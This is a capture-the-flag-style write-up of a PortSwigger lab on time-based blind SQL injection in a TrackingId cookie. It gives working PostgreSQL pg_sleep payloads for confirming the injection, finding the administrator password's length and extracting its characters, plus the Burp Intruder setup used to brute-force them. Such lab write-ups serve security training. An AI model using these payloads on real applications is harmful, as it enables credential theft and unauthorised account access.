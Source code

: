 # Blind SQL Injection with Time Delays and Information Retrieval - [Link](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## Goal
Exploit a blind SQL injection vulnerability in the `TrackingId` cookie to extract the administrator's password from the `users` table and log in as the administrator.

## Vulnerability
The application uses the `TrackingId` cookie in a SQL query without sanitization. No query results or errors are returned, but synchronous execution allows time-based delays to infer data from the `users` table (`username`, `password` columns).

## Solution Steps
1. **Confirm SQL Injection**:
   - Payload: `TrackingId=xyz'||(SELECT pg_sleep(10))--`
   - Result: 10-second delay confirms PostgreSQL backend (since `pg_sleep` works).

2. **Test Conditional Delays**:
   - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--`
   - Result: 10-second delay confirms `CASE` statements work for conditional logic.
   - Note: `IF(1=1,SLEEP(10),'a')` failed (MySQL syntax, not PostgreSQL).

3. **Determine Password Length**:
   - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (LENGTH(password)<30) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`
     - Delay observed, confirming password length < 30.
   - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (LENGTH(password)=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`
     - Delay observed, confirming password length = 20 (lucky guess from prior labs).

4. **Extract Password Characters**:
   - Payload: `TrackingId=xyz'||(SELECT CASE WHEN (SUBSTRING(password,§pos§,1)='§char§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`
   - Use Burp Intruder (Cluster Bomb attack):
     - Payload 1: `pos` (numbers 1 to 20).
     - Payload 2: `char` (brute-force, single characters, e.g., a-z, 0-9).
   - Steps:
     - Send payload to Burp Intruder.
     - Set `§pos§` and `§char§` as payload positions.
     - Configure payloads: `pos` (1-20), `char` (brute-force, length 1).
     - Start attack, sort by "Response received" (time).
     - Filter for responses >10,000ms (indicating 10-second delay).
     - Highlight matching responses to identify correct characters.
   - Result: Password characters extracted as `5zcrhuc9aq3qavytxu8m`.

5. **Log In**:
   - Use username `administrator` and password `5zcrhuc9aq3qavytxu8m` to log in, solving the lab.
